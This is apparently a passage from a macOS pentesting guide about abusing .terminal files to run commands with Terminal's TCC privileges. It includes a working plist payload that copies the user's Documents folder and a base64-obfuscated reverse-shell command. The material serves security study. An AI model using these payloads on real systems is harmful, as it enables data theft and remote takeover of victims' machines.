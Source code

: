If you create a [**`.terminal`** script](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) and opens, the **Terminal application** will be automatically invoked to execute the commands indicated in there. If the Terminal app has some special privileges (such as TCC), your command will be run with those special privileges.

Try it with:

```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>CommandString</key>
	<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
	<key>ProfileCurrentVersion</key>
	<real>2.0600000000000001</real>
	<key>RunCommandAsShell</key>
	<false/>
	<key>name</key>
	<string>exploit</string>
	<key>type</key>
	<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```

You could also use the extensions **`.command`**, **`.tool`**, with regular shell scripts content and they will be also opened by Terminal.

{% hint style="danger" %}
If terminal has **Full Disk Access** it will be able to complete that action (note that the command executed will be visible in a terminal window).
{% endhint %}

### Audio Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0013/](https://theevilbit.github.io/beyond/beyond\_0013/)\
Writeup: [https://posts.specterops.io/audio-unit-plug-ins-896d3434a882](https://posts.specterops.io/audio-unit-plug-ins-896d3434a882)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [🟠](https://emojipedia.org/large-orange-circle)
  * You might get some extra TCC access
